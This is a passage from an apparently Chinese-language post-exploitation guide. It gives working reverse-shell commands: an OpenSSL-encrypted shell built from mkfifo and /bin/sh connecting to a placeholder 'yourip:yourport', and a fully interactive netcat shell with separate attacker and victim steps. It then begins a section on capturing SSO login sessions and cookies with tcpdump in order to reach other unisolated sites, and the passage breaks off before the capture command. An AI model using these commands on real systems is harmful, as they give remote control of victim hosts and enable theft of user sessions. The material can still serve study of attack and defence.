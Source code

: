 ```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

服务端监听：

```css
openssl s_server -quiet -key key.pem -cert cert.pem -port 8888
```

受控端执行：

```ruby
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect yourip:yourport > /tmp/s; rm /tmp/s
```

## 完全交互式 shell

attack 端执行：

```bash
stty -echo raw; nc -lp 1337; stty sane
```

victim 端执行：

```bash
nc -c '/bin/bash -c "script /dev/null"' yourip 1337
```

现在 ctrl c 也不会退出：  
![image-20201211103704421](assets/1700701638-7766eba1fe95df69854ea6da4966536c.png)

# 登录态

现在越来越多的系统接入 SSO、零信任，用户友好度提升了，但是也伴随了大量风险，比如如果单点故障了怎么办。其他安全风险呢？如果我们拿下其中一台可信服务器的权限，是否也伴随着未做隔离的站点也沦为了能快速拿权限的攻击目标？

## tcpdump

tcpdump 是一款网络抓包的程序，在 SSO、零信任的场景中，我们可以利用它来获取用户的登录态、Cookie 等敏感信息，然后利用这些信息去登录其他未做隔离的站点。  
下面是抓取 http 数据包的命令示例：
